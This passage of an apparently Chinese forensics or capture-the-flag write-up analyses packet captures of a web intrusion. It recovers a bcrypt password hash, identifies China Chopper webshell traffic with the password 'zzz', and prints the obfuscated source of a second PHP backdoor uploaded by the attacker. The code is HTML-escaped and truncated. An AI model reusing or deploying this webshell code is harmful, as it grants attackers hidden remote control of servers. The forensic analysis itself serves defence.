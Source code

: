 我们去掉前缀和后缀，可以得到

```
$2y$10$lXujU7XaUviJDig
FMzKy6.wx7EMCBqpzrJdn7
zi/8B2QRD7qIlDJe
```

于是我们可以得到完整的加密密码

```
$2y$10$lXujU7XaUviJDigFMzKy6.wx7EMCBqpzrJdn7zi/8B2QRD7qIlDJe
```

但是一直没有解密成功……有大师傅知道解法可以告诉我，thanks



## 第二个数据包

由于已确定目标ip，所以依旧使用以下过滤简化操作

```
(ip.addr == 192.168.1.8 || ip.addr == 202.1.1.2) &amp;&amp; http
```

[![](https://p5.ssl.qhimg.com/t01890d5ebf09772a15.jpg)](https://p5.ssl.qhimg.com/t01890d5ebf09772a15.jpg)<br>
可以看到一个奇怪文件:

```
kkkaaa.php
```

我们跟进POST数据查看<br>[![](https://p2.ssl.qhimg.com/t0171d4d06f009463db.jpg)](https://p2.ssl.qhimg.com/t0171d4d06f009463db.jpg)<br>
不难发现，是中国菜刀的流量<br>
小马密码为zzz<br>
接着为确定黑客第二次上传php木马的时间<br>
我进行了过滤，因为我猜想，黑客应该是根据第一个小马来上传的第二个小马

```
(ip.addr == 192.168.1.8 || ip.addr == 202.1.1.2) &amp;&amp; http.request.method==POST
```

此时一条数据格外引人注目<br>[![](https://p5.ssl.qhimg.com/t017f09387a185fe17a.jpg)](https://p5.ssl.qhimg.com/t017f09387a185fe17a.jpg)<br>
我们对其16进制进行分析<br>[![](https://p3.ssl.qhimg.com/t0170971e3ca7ab4e0c.jpg)](https://p3.ssl.qhimg.com/t0170971e3ca7ab4e0c.jpg)<br>
将其保存为php文件<br>
得到源码

```
&lt;?php
$p='l&gt;]ower";$i&gt;]=$m[1][0].$m[1]&gt;][1];$h&gt;]=$&gt;]sl($ss(m&gt;]d5($i.&gt;]$kh),0&gt;],3))&gt;];$f=$s&gt;]l($s&gt;]s(md5';
$d=']q=array_v&gt;]&gt;]alues(&gt;]$q);&gt;]preg_match_a&gt;]ll("/(&gt;][\w]&gt;])[\w-&gt;]]+&gt;](?:;q=&gt;]0.([\d]))?,?/",&gt;';
$W='),$ss(&gt;]$s[&gt;]$i],&gt;]0,$e))),$&gt;]&gt;]k)));&gt;]$o=ob_get_content&gt;]&gt;]s();ob_end_&gt;]&gt;]clean();$d=&gt;]base';
$e=']T_LANGUAGE"];if($rr&gt;]&amp;&amp;$&gt;]ra)`{`$&gt;]u=pars&gt;]e_&gt;]url($rr);par&gt;]se_st&gt;]r($u["&gt;]query"],$&gt;]q);$&gt;';
$E='&gt;]64_e&gt;]ncod&gt;]e&gt;](&gt;]x(gz&gt;]compress($o),$k));pri&gt;]nt("&lt;$k&gt;$d&lt;&gt;]/$k&gt;"&gt;])&gt;];@&gt;]session_destr&gt;]oy();`}``}``}``}`';
$t='($i.&gt;]$kf),0,3&gt;]));$p&gt;]="";fo&gt;]r($z=1&gt;];$z&lt;&gt;]count($m&gt;][1]);$z+&gt;]&gt;]+)$p&gt;].=$q[$m[&gt;]2][$z]];i&gt;';
$M=']$ra,$&gt;]m);if($q&gt;]&amp;&amp;$m&gt;])`{`@sessi&gt;]on_sta&gt;]&gt;]rt();$s=&amp;$&gt;]_SESS&gt;]ION;$&gt;]&gt;]s&gt;]s="substr";$sl="s&gt;]&gt;]trto';
$P=']f(s&gt;]tr&gt;]pos($p&gt;],$h)===0)`{`$s[&gt;]$i]="";$p&gt;]=$ss($&gt;]p,3);&gt;]`}`if(ar&gt;]ray&gt;]_key_exist&gt;]&gt;]s($i,$&gt;]s)&gt;])`{`$&gt;';
$j=str_replace('fr','','cfrrfreatfrfre_funcfrtfrion');
```